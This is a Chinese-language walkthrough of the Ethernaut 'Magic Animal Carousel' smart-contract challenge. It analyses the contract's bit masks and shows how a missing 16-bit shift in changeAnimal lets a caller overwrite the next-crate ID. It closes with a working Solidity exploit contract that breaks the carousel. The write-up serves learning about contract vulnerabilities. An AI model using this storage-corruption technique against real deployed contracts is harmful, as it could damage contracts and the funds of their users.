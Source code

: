 ## Level_33.Magic Animal Carousel

要求：

> 使旋转木马停止工作；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        address owner = address(uint160(carousel[crateId] & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```

#### 分析

题目很抽象，读了好几遍都没懂，所以直接从头开始分析合约；

先从构造函数开始：

```solidity
constructor() {
    carousel[0] ^= 1 << 160;
}
```

carousel[0]的值为` 0x10000000000000000000000000000000000000000 `；

接着看几个常量：

0xffff：` MAX_CAPACITY `，最大数量；

0xffffffffffffffffffff00000000000000000000000000000000000000000000：` ANIMAL_MASK `，可以理解为动物身份；

0x00000000000000000000ffff0000000000000000000000000000000000000000：` NEXT_ID_MASK `，下一个动物的身份ID；

0x000000000000000000000000ffffffffffffffffffffffffffffffffffffffff：` OWNER_MASK `，拥有者身份；

此处将几个常量都扩充成256位，因为这样能看得更清楚；

**此处相当于3个模式匹配串，当一个256位的值与其相与，便会得到相应的动物身份、下一个动物的ID、拥有者身份；**

![image-20250305002020783](./assets/image-20250305002020783.png)



下面先看` encodeAnimalName() `函数：

```solidity
function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
    require(bytes(animalName).length <= 12, AnimalNameTooLong());
    return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
}
```

光看不是很能理解，直接示例解释，比如输入"WZM"：

` encodePacked `后：0x575a4d0000000000000000000000000000000000000000000000000000000000

` 右移160位` 后：0x575a4d000000000000000000

也就是说，该函数取字符串encode后的前12字节；

**往上联系，会得到动物身份和下一个动物的身份ID；**



接着看` setAnimalAndSpin() `函数：

```solidity
function setAnimalAndSpin(string calldata animal) external {
    uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
    uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

    require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
    carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
        | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

    currentCrateId = nextCrateId;
}
```

` encodeAnimal `：` encodeAnimalName() `后得到的12字节后，舍弃最后的2字节，取前10字节，得到**动物身份**；

` nextCrateId `：得到下一个**动物身份ID**；

` (carousel[nextCrateId] & ~NEXT_ID_MASK) `：清空下一个动物身份ID；

` ^ (encodedAnimal << 160 + 16) `：得到需要增加的动物的身份；

` ((nextCrateId + 1) % MAX_CAPACITY) << 160 `：动物身份ID递增1，并且左移到该在的位置；

` uint160(msg.sender) `：消息发送者为动物拥有者；

这三个式子中间的` | `可以理解为是用来连接3个数值的，类似` 100 | 020 | 003 => 123 `；

该函数就是新设置一个动物进去，同时设置动物身份、下一个动物的ID、动物拥有者；



最后看` changeAnimal() `函数：

```solidity
function changeAnimal(string calldata animal, uint256 crateId) external {
    address owner = address(uint160(carousel[crateId] & OWNER_MASK));
    if (owner != address(0)) {
        require(msg.sender == owner);
    }
    uint256 encodedAnimal = encodeAnimalName(animal);
    if (encodedAnimal != 0) {
        // Replace animal
        carousel[crateId] =
            (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
    } else {
        // If no animal specified keep same animal but clear owner slot
        carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
    }
}
```

首先得到动物拥有者` owner `，检查其不为0，得到需要更改的动物身份和下一个动物的身份ID` encodedAnimal `，最后重新赋值动物身份，其余位置不变；



合约已经全部详细分析完了，可以发现` encodeAnimalName() `函数得到的是动物身份和下一个动物身份ID，并且在` changeAnimal `时，并未正确的向左移` 160 + 16 `位，所以我们调用` changeAnimal() `时，可以改变下一个动物身份ID，并且动物最大数量是` 0xffff `，而记录的` nextCrateId `是` uint256 `，再往上加是有溢出的；

1. 我们先加一个动物"WZM"，它自己的currentID是1，此时的Next_ID是2：

` carousel[0x0001] ` = 0x575a4d0000000000000000027148c25a8c78b841f771b2b2eead6a6220718390；

2. 调用` changeAnimal() `，更改currentID为` 0x0001 `的动物，并且将Next_ID设置为` 0xffff `，并且` 0xffff | 0x0002 = 0xffff `，此时的值为：

` carousel[0x0001] ` = 0xffffffffffffffffffffffff7148c25a8c78b841f771b2b2eead6a6220718390；

3. 接着再增加一个新的动物"AAA"进来时，currentID为` 0xffff `，此时的Next_ID为` (0xffff + 1) % 0xffff = 1 `；

` carousel[0xffff] ` = 0x4141410000000000000000017148c25a8c78b841f771b2b2eead6a6220718390；

4. 当再有一个动物"BBB"进来时，此时的currentID为` 0x0001 `，并且Next_ID为` 0x0002 `，只要名字不是写满10字节，后面便会有第2步中污染的数据"f"；

` carousel[0x0001] ` = 0xbdbdbdffffffffffffff00027148c25a8c78b841f771b2b2eead6a6220718390；



#### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;
import "./Ethernaut.sol";

contract Exp {
    MagicAnimalCarousel mac;
    constructor(address addr){
        mac = MagicAnimalCarousel(addr);
    }
    function Attack() public {
        mac.setAnimalAndSpin("WZM");
        uint256 currentID = mac.currentCrateId();
        bytes memory strBytes = new bytes(12);
        for (uint i = 0; i < 12; i++) {
            strBytes[i] = bytes1(0xff);
        }
        string memory createString = string(strBytes);
        mac.changeAnimal(createString, currentID);
        mac.setAnimalAndSpin("AAA");
    }
}
```

![image-20250305021446844](./assets/image-20250305021446844.png)

